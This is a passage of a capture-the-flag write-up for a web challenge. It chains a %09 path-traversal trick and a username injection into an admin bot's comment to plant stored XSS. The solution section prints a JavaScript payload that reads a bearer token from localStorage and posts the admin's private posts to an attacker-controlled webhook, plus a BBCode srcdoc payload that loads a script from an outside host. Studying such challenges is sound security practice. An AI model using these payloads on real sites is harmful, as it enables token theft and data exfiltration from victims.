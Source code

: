 ![WhiteDukesDZ Logo](demonstration/web-bubble-rerevenge-path.png)

If we now submit a comment to this crafted post URL, the frontend will send a `POST` request to `/api/comments/user/<user_id>/posts/<post_id>%2f.%09.%2f.%09.%2f.%09.%2f.%09.%2f.%09.%2fdrafts%2fsave`, which, after decoding, targets `/api/drafts/save` on the backend. This is possible because React strips `%09` and normalizes the path, allowing the traversal to succeed.

![WhiteDukesDZ Logo](demonstration/web-bubble-rerevenge-path-comment.png)

As a result, instead of posting a comment, the crafted request actually saves a draft—allowing us to deliver our XSS payload directly to the admin's drafts.

After reviewing `bot.py` notice that we control a part of the bot `comment` which is our `username` (the `username` of the post owner):

```python
text_input.send_keys(f"Dear {author_username.text},\n {random.choice(opinions)}")
```

This means that the bot's comment will always include the post owner's `username` as part of the message it submits. Since we fully control our own username, this provides a direct injection point for our payload.

Importantly, the application enforces a maximum username length of 100 characters. Therefore, any XSS payload we wish to inject via the username must fit within this constraint.

By carefully crafting a payload under 100 characters, we can ensure that when the bot comments on our post, it will unwittingly include our malicious input in its own comment. Due to the path traversal and draft-saving logic described earlier, this comment content will be stored as the admin's draft. When the bot subsequently creates a new post (which loads the draft), our XSS payload will execute in the admin's browser context, enabling us to proceed with flag exfiltration.

---

## Solution

Based on our analysis, obtaining the flag requires exploiting a stored XSS vulnerability to exfiltrate the admin's private post. The approach is to craft a payload with length <= 100 that, when executed in the admin bot's browser, fetches `/api/posts` (which includes the private flag post) and sends the data to a server we control.

A suitable JavaScript payload is:

```js
fetch('/api/posts',{method:'GET',headers:{'Authorization':'Bearer'+String.fromCharCode(32)+localStorage.getItem('DiarrheaTokenBearerInLocalStorageForSecureRequestsContactAdminHeKnowsHotToUseWeHaveManyTokensHereSoThisOneShouldBeUnique')}}).then(r=>r.json()).then(data=>fetch('https://YOUR_SERVER_OR_WEBHOOK',{method:'POST',headers:{'Content-Type':'application/x-www-form-urlencoded'},body:'posts='+encodeURIComponent(JSON.stringify(data.items))}))
```

In order to fit the <= 100 length constraint, we can include it in a external link. To deliver this payload, we use the vulnerable `[yt]` BBCode tag, injecting our JavaScript into the `srcdoc` attribute:

```html
[yt srcdoc=<script/src="//manini.alwaysdata.net/kss.js"></script>]
```

